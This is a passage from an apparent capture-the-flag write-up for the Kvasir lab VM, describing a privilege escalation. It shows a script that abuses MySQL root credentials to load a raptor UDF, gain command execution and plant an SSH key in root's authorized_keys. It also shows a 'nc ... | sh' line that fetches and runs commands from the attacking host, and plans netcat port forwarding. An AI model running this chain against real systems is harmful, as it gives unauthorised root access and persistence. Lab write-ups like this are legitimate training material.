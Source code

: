 ```bash
root@kali:~# cat load_udf.sh
touch log
mysql -uroot -pcoolwater -h 192.168.2.200 -e 'use mysql; select 0x7f454

    [... snip ... but the this the output of xxd -p lib_mysqludf_sys.so ]

0000000000000 into dumpfile "/usr/lib/mysql/plugin/raptor_udf.so";' 2>> log
mysql -uroot -pcoolwater -h 192.168.2.200 -e 'create function sys_exec returns integer soname "raptor_udf.so";' 2>> log
mysql -uroot -pcoolwater -h 192.168.2.200 -e 'use mysql; select * from mysql.func;' 2>> log

# this adds me a SSH key to roots authorized keys using the command execution udf we have prepared
mysql -uroot -pcoolwater -h 192.168.2.200 -e 'select sys_exec("echo \"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPzHgBKct5VjcxsoGfzL/g2XfOk6k6vhHxS4V1C4x0483V29E5OhEDSW/3pfJVwv9m/BW1aXJe5sLO3G3kn0VhgEen+YHShXu09cv3ROu98krlwYcmzyMyfZdwU0D2DbIJjFKWaqEafIcLx01vmFozcxk3C1bhPdo6mBuu2XGWJx6OpqXYnnRGebXdBqKT9b5JmEVn/W8Vu9F68nqmIYyk3hBlydwbOkevh/HfsNm50pd7ZZPK/mpAdZxYYxfBcvUQcWmgtw49ihTAJGh5KZJM/pL4xCw/meavFXy01SX7TZNAmrxcn6FDcXQJ6DC+TUMWXigxcCwntKxSHChyTiDB\" > /root/.ssh/authorized_keys")' 2>> log
```

With this file ready, I opened a netcat port to pipe it to, and read it on `web`:

```bash
# on the attacking machine, I opened netcat with my mysql commands
root@kali:~# nc -lvp 4444 < load_udf.sh 
listening on [any] 4444 ...

# then on the original netcat shell I have, read it
timeout 3 nc 192.168.56.101 4444 | sh
name    ret dl  type
sys_exec    2   raptor_udf.so   function
sys_exec("echo \"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPzHgBKct5VjcxsoGfzL/g2XfOk6k6vhHxS4V1C4x0483V29E5OhEDSW/3pfJVwv9m/BW1aXJe5sLO3G3kn0VhgEen+YHShXu09cv3ROu98krlwYcmzyMyfZdwU0D2DbIJjFKWaqEafIcLx01vmFozcxk3C1bhPdo6mBuu2XGWJx6OpqXYnnRGebXdBqKT9b5JmEVn/W
0
```

The public ssh key is sourced from a new key pair I generated for Kvasir. So, with that run we get a exit code of `0`, indicating that it was successful. I specify the `timeout` command so that the nc session opened from within another nc session will exit and we don’t lose the shell. Pressing ^C will kill the whole session and not just the netcat I just run :)

##ssh to db host
With all that done, I have my public key for the `root` user added, and I should be able to ssh to it. There is one interesting hurdle though, how do I *get* to 192.168.2.200's port 22? :)

For that, I decided to look at `netcat` port forwarding! But first, lets read some man pages: 

```bash
#from nc(1)
OPTIONS
       -c string    specify shell commands to exec after connect (use with caution).
```

*"use with caution"*. I like it already. Ok so I can open a netcat listener, which will open another one on connect listening on a new port. We can then connect to this listener, opening another connection to the ssh server we want to connect to, effectively forwarding the port. Clear as mud!
